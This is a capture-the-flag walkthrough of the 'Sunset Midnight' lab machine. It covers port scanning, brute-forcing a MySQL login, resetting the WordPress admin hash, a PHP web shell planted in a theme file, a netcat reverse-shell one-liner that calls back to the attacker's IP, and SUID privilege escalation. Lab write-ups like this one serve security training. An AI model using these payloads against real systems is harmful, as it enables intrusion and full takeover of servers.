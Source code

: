 first enumeration with nmap 

```
# Nmap 7.93 scan initiated Thu May 25 11:30:36 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80,3306 -Pn 192.168.204.88
Nmap scan report for 192.168.204.88
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 20
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, IgnoreSpaceBeforeParenthesis, FoundRows, ODBCClient, SupportsLoadDataLocal, Speaks41ProtocolOld, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsTransactions, IgnoreSigpipes, LongColumnFlag, InteractiveClient, Support41Auth, ConnectWithDatabase, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: ?X~0ssi6nI`*M%mx32D=
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 25 11:30:53 2023 -- 1 IP address (1 host up) scanned in 16.95 seconds
```
add `sunset-midnight` to `/etc/hosts` file.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fadb3858-e96c-4e4a-ab4e-022d138d05c9)

noticed a web server on port 80, opening it on a browser, got directed to a wordpress web page. let's run wpscan.

```
wpscan --url http://sunset-midnight/ --enumerate p,t,u
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/79ea7cf9-ae3f-48b4-a1fe-bc8b2ae4a97e)

found a plugin `simply poll master`

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/266922dc-4908-47a4-a9b2-0cbe6164083c)

found a user `admin`. searched for exploit for the plugin, no success. tried tp bruteforce `admin` password. could not get the password. let's move to the next port `mysql:3306`

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/SunsetMidnight]
└─$ mysql -h sunset-midnight -u root -p                                                                     
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'192.168.45.210' (using password: YES)
                                                                                                                                                                       
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/SunsetMidnight]
└─$ mysql -h sunset-midnight -u root    
ERROR 1045 (28000): Access denied for user 'root'@'192.168.45.210' (using password: NO)
```
tried to login mysql as `root:root`, and as `root` without password, failed. let's try bruteforce

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d424bde2-c79b-49a3-afd0-b2b23e5b9674)

bull's eye, we got the password for mysql. let's login

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/SunsetMidnight]
└─$ mysql -h sunset-midnight -u root -p                                                                     
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7625
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress_db       |
+--------------------+
4 rows in set (0.177 sec)

MariaDB [(none)]> use wordpress_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress_db]>
```
cool we logged in mysql and select the `wordpress_db`. let's check the tables available.

```
MariaDB [wordpress_db]> show tables;
+------------------------+
| Tables_in_wordpress_db |
+------------------------+
| wp_commentmeta         |
| wp_comments            |
| wp_links               |
| wp_options             |
| wp_postmeta            |
| wp_posts               |
| wp_sp_polls            |
| wp_term_relationships  |
| wp_term_taxonomy       |
| wp_termmeta            |
| wp_terms               |
| wp_usermeta            |
| wp_users               |
+------------------------+
13 rows in set (0.176 sec)

MariaDB [wordpress_db]> select * from wp_users;
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.168 sec)

MariaDB [wordpress_db]>
```
cool we got the admin password hash, let's change the password. 

```
MariaDB [wordpress_db]> update wp_users SET user_pass='21232f297a57a5a743894a0e4a801fc3' WHERE id='1';
Query OK, 1 row affected (0.212 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [wordpress_db]>
```
changed the password hash where `21232f297a57a5a743894a0e4a801fc3` is the md5 for "admin". now let's login `wp-admin`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/af507b68-be0e-41d6-96ff-7ccf528950e9)

login using `admin:admin`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5b9ba614-85bc-49fd-919b-6a001f2d4c69)

Bingo!!! we are in. let's play around and look for how to get a shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9d3ee264-5c23-4a08-ae12-6caa85168860)

navigate to the theme editor section, select theme twentynineteen, and choose the 404.php file and put a php web shell, click update to save.

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
php web shell payload. Now let's navigate to the path where this shell it.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/633328a1-309a-4eab-b7c1-4911a88564c3)

got the shell path `http://sunset-midnight/wp-content/themes/twentynineteen/404.php` and boom we got RCE. let's pop a reverse shell. fire ncat listener 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/28d6ed6f-f552-4686-8708-129afdcf5c80)

send a revshell payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.210 1337 >/tmp/f` and check back ncat listener. 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/SunsetMidnight]
└─$ ncat -lnvp 1337                                                 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 192.168.204.88.
Ncat: Connection from 192.168.204.88:37304.
bash: cannot set terminal process group (556): Inappropriate ioctl for device
bash: no job control in this shell
www-data@midnight:/var/www/html/wordpress/wp-content/themes/twentynineteen$ id 
<tml/wordpress/wp-content/themes/twentynineteen$ id                         
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@midnight:/var/www/html/wordpress/wp-content/themes/twentynineteen$ 
```
Bingo! we got a reverse shell.


## Privilege Escalation

```
www-data@midnight:/home/jose$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/su
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/status
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
www-data@midnight:/home/jose$
```
looking for suid, found `/usr/bin/status` let's check it out.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/dd658030-149a-4cc1-9824-79b7a47408bc)

running the binary file showed us what service is running, we can see it did not exit after checking the service status. putting a payload `!/bin/bash` got us a root shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4b994f06-9fde-4ea4-a8fa-cf3bf005fec2)

and we are through... 😉 had fun yeah?
